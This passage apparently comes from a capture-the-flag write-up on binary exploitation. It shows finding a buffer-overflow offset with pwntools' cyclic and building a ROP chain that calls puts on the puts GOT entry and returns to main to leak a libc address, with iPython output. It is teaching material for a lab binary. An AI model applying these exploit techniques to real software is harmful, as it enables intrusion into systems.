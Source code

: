 ![alt text](image-20.png)

And we can take that and look up the exact offset it takes to overwrite the return address with `cyclic -l 0x61616361`, giving us an offset of `7`. So let's set our `offset` in the pwn script to `7`, then we can make our little things! I'm going to use my iPython window to experiment with everything instead of doing the ROP manually, which I'd only have to do with really weird gadgets. Also I'm going to use `pwntools` to automate the boring parts of the rop chain, which would basically just be me grabbing the address of puts, main, and the `puts_plt` address, and chaining them together (It's just easier this way).

```py
In [45]: rop = ROP(exe)
In [46]: rop.puts(exe.got['puts'])
In [48]: rop.call(exe.sym['main'])
In [49]: print(rop.dump())
0x0000:        0x80484a8 puts(0x804afdc)
0x0004:        0x8048954 0x8048954()
0x0008:        0x804afdc got.puts
```
